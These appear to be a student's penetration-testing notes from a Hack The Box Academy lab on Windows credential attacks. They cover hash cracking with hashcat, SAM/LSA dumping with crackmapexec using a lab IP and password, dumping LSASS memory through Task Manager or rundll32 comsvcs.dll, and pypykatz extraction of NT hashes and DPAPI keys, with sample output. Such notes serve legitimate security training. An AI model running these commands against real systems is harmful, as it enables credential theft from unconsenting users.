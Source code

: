 Would you like to do a proper brute force:
`hashcat -a3 -m1000 nt_hash.txt`

Really good to use crackmapexec:
`crackmapexec smb 10.129.202.137 --local-auth -u Bob -p "HTB_@cademy_stdnt"'!'"" --sam (or lsa)`

# Attacking LSASS
Upon initial logon, LSASS will:

    Cache credentials locally in memory
    Create access tokens
    Enforce security policies
    Write to Windows security log

To do so:
Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file

And it will be created here:
`C:\Users\loggedonusersdirectory\AppData\Local\Temp`

We can also use the command line utility: [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32), 

Find `lsass`:
```powershell
C:\Windows\system32> tasklist /svc
PS C:\Windows\system32> Get-Process lsass

# Creating dump
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

### Using Pypykatz to Extract Credentials
 [pypykatz](https://github.com/skelsec/pypykatz)

 ```bash
 pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

 # Looking for MSV

 	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA

	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)

	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	
    == DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
 ```
